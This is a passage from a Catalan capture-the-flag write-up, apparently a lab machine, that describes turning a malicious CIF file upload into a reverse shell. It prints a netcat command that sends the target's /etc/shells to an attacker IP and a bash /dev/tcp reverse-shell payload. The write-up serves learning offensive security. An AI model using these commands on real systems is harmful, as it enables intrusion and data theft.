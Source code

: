 I fem el mateix procediment que hem fet al principi per provar la funcionalitat de la pàgina, només que aquesta vegada ens retorna un codi 500 per error del servidor.

![image](https://github.com/user-attachments/assets/5dde3611-f34e-4163-9bcf-e4a114b0129f)

No obstant, hem rebut la traça IP que hem enviat des del servidor que corre el servei web.

![image](https://github.com/user-attachments/assets/e993929c-1eb5-4aed-b888-c6ae1d3e68a6)

Per tant, podem fer el mateix procediment però per establir-nos una reverse shell. Modifiquem el codi de l'arxiu CIF, ens fiquem en escolta pel port 4321 amb NetCat i tornem a pujar l'arxiu. 

Ho fem a través d'una consola _bash_ i no obtenim cap resultat. Per tant, pot ser que hi hagi algun tipus de firewall impedint que ens establim una reverse shell. Per comprovar quines altres consoles hi ha disponibles al host, ens podem portar l'arxiu _/etc/shells_ de la màquina objectiu a la nostra màquina a través de Netcat.
````bash
# Atacant
nc -lvnp 4321 > shells.txt

# Víctima
nc 10.10.16.30 4321 < /etc/shells
````

I es crea un arxiu _shells.txt_ amb el contingut que ens hem enviat des de la màquina objectiu.

````
> cat shells.txt

# /etc/shells: valid login shells
/bin/sh
/bin/bash
/usr/bin/bash
/bin/rbash
/usr/bin/rbash
/bin/dash
/usr/bin/dash
/usr/bin/tmux
/usr/bin/screen
````
Podem provar el mateix payload amb les diferents consoles per comprovar si ens permeten establir-nos la reverse shell o si també estan protegides per aquest firewall. 

Quan ho fem amb la shell _/usr/bin/bash_, tenim una connexió establerta però podem observar que, si que escrivim "bash" als arguments, se'ns afegeix un caracter que impedeix que poguem tenir aquesta consola interactiva al host. Tot i això, podem seguir el mateix procediment que hem fet fins ara i provar altres tipus de consoles.  

![image](https://github.com/user-attachments/assets/bdfb3c88-39a4-4531-870d-f91c6f0d9a62)

I utilitzant una _sh_ aconseguim tenir una pseudoconsola al host.
````bash
# Payload
 /usr/bin/bash -c '/bin/sh -i >& /dev/tcp/10.10.16.30/4321 0>&1'
````
